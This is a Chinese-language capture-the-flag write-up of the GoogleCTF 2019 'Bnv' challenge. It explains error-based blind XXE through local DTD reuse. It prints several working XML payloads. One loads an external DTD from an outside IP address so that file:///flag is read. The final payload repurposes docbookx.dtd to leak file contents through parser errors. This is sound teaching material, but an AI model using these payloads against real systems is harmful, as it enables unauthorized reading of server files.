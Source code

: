 # \[GoogleCTF2019 Quals]Bnv

## \[GoogleCTF2019 Quals]Bnv

## 考点

* 基于报错的Blind XXE
* 利用本地DTD打XXE

## wp

抓包发现请求内容是json，有json就可能会有XXE

![](../.gitbook/assets/wcH6tnKwHzSig4FnrgcJ1UeHC1taVcwVxVQ8kljeNdg.png)

请求头Content-type改成application/xml，用XML试一下

![](../.gitbook/assets/gX5TWe\_WoNnLkcLZQnfLKazwwjA-yCOKR-aDIgnwHvU.png)

看到需要DTD，那就再加上内部DTD，注意这里要先声明一下`to`和`note`标签，要不会报错

```xml
<?xml version="1.0"?>
<!DOCTYPE note [
<!ELEMENT note (to)>
<!ELEMENT to (#PCDATA)>
<!ENTITY copyright "Copyright runoob.com">
]>
<note>
  <to>Tove  &copyright;</to>
</note> 
```

![](../.gitbook/assets/3dTczq729Fo4FfJkeytBUHByqjsBKGxT2Z1RZmzlBb8.png)

之前传json的时候，传的数据是message加数字，那这里也用message标签试试，看到请求成功了

```xml
<?xml version="1.0"?>
<!DOCTYPE message [
<!ELEMENT message (#PCDATA)>
<!ENTITY copyright "135601360123502401401250">
]>
<message>&copyright;</message>
```

![](../.gitbook/assets/kCdb6Olfu4v44KElBD00BuxLY61l73GjwkxjQdRbjDA.png)

接着尝试加载外部实体，可以先试试能不能加载外部链接，结果没有反应，换成https://beeceptor.com/的地址就会提示`failed to load external entity "https://beeceptor.com/", line 6, column 6`，难不成会自动忽略http的外部链接吗

```xml
<?xml version="1.0"?>
<!DOCTYPE message [
<!ELEMENT message (#PCDATA)>
<!ENTITY copyright "135601360123502401401250">
<!ENTITY  % xxe SYSTEM "http://121.5.66.238:20001/123.dtd" >
%xxe;
]>
<message>&copyright;&evil;</message>
123.dtd
<!ENTITY evil SYSTEM "file:///flag" >
```

然后试着加载内部文件，提示标记错误，那就是被加载了，但是不符合DTD格式

![](../.gitbook/assets/QNd744jr74FKLudU2wRDufKmczszBeEaXakTtfnHUUc.png)

到这里就知道了大概，要找到Linux内部可以利用的DTD文件，且本题读取了一个错误的实体，会返回完整的实体名。那就可以先读取flag，赋值给a，再去加载一个错误的DTD，例如`/nonexistent/a`就可以利用报错返回a的值，也就是flag的值

最后payload

```xml
<?xml version="1.0"?>
<!DOCTYPE message[
<!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">
<!ENTITY % ISOamsa '
<!ENTITY &#x25; file SYSTEM "file:///flag">
<!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
&#x25;eval;
&#x25;error;
'>
%local_dtd;
]>
```

## 小结

1. 有json可能会有XXE
2. **利用本地DTD文件打XXE**
